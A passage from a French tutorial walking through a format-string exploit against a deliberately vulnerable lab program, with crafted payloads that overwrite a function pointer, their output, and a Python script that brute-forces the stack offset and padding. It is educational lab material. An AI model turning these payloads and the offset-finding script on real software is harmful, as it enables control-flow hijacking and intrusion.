 Mais on est dans une situation idéale car ce pointeur est sur la pile... Corsons le jeu **en plaçant nous même l'adresse du pointeur sur fonction dans la pile** :  

```console
oj@hell:~$ ./vuln $'\xdc\xfc\xff\xbf'B%130\$.8x
terminated=0x804847c, secret=0x8048490, &ptr2f=0xbffffcdc
shellcode addr=(nil)
#start a=1, b=2, c=3 - x=0xbffffcd8, y=0xbffffcd4, z=0xbffffcd0
����Bbffffcdc
#end  a=1, b=2, c=3 - x=0xbffffcd8, y=0xbffffcd4, z=0xbffffcd0
Program terminated with success
```

Bien, il est toujours en position 130 avec un padding d'un caractère. On va déplacer ce padding en fin de chaine pour ne pas qu'il nous dérange.  

Ici on a déjà écrit 4 octets avec l'adresse de `ptr2f`. Il nous reste donc à écrire 0x8048490 - 4 = 134513804 octets.  

```console
oj@hell:~$ ./vuln $'\xdc\xfc\xff\xbf'%.134513804x%130\$.8xB
terminated=0x804847c, secret=0x8048490, &ptr2f=0xbffffccc
shellcode addr=(nil)
#start a=1, b=2, c=3 - x=0xbffffcc8, y=0xbffffcc4, z=0xbffffcc0
--- snip ---000000000001006e6c75B
#end  a=1, b=2, c=3 - x=0xbffffcc8, y=0xbffffcc4, z=0xbffffcc0
Program terminated with success
```

Pas terrible :( Comme on pouvait s'y attendre le pointeur de fonction `ptr2f` et les autres variables locales ont changées d'adresse à cause de la taille de `argv` qui a changée !  

Qui plus est l'argument en position 130 (juste avant le `B` final) a aussi été décalé :-/  

Comment retrouver le bon offset (position) et le bon padding ? J'ai écrit un programme en Python qui va tester les différentes combinaisons (teste les positions entre 120 et 150) en utilisant `AAAA` comme début de chaîne, la valeur que l'on doit écrire plus le format avec la position spécifiée sur une taille de format fixe :  

```python
import subprocess
import sys

ptr = "AAAA"
length = "%.134513804x"

for padding in xrange(0, 4):
    for i in xrange(120, 150):
        arg = ptr + length + '%{:03d}$.8x'.format(i) + padding * "B"
        output = subprocess.check_output(['./vuln', arg, ';true'])
        if "41414141" in output:
            print "Offset trouve a", i, "avec", padding, "octets de padding"
            print arg
            sys.exit()
```
